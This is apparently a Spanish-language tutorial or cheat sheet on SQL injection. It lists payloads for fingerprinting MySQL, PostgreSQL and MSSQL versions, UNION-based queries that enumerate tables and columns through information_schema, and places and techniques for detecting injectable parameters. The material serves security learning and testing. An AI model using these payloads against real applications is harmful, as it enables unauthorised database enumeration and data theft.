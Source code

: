 
## SQL Injection — Examinando la base de datos

### 1) *Querying the type and version* (¿qué motor y versión?)

Saber el motor ayuda a elegir payloads correctos (funciones, concatenación, sleep, comentarios).

**Payloads típicos** (inserta en un parámetro vulnerable como `id`):

* MySQL version: `1' AND @@version LIKE '%5.%' -- `
* Generic version extraction: `' UNION SELECT @@version-- `
* PostgreSQL: `' UNION SELECT version()-- `
* MSSQL: `' UNION SELECT @@version-- `

Si la aplicación retorna la versión, ya sabes muchas funciones disponibles.

### 2) *Listing the contents* (tablas/columnas útiles)

En MySQL:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
SELECT column_name FROM information_schema.columns WHERE table_name='users';
```

En PostgreSQL las tablas del catálogo son `pg_catalog` o `information_schema`.

**Payload de enumeración (ejemplo MySQL):**

```
' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema=database()--
```

Para enumerar columnas de una tabla concreta:

```
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
```

### 3) *Detecting SQL injection vulnerabilities* — en distintas partes y contextos

**Lugares comunes para inyectar:**

* Parámetros GET/POST (e.g. `?id=1`)
* Cabeceras HTTP (User-Agent, Referer)
* Cookies
* Campos de formularios (búsqueda, filtro, login, creación de cuenta)
* Valores usados en cláusulas `ORDER BY`, `LIMIT`, `FROM`, `JOIN`, `GROUP BY`

**Técnicas de detección:**

* Inyectar comillas: `1'` o `"` y observar errores o comportamiento.
* Pruebas booleanas: `1' AND 1=1 --` vs `1' AND 1=2 --`.
* Probar comentarios: `--`, `#` (MySQL), `/* ... */`.
* Probar `UNION SELECT` para forzar una unión que muestre resultados.
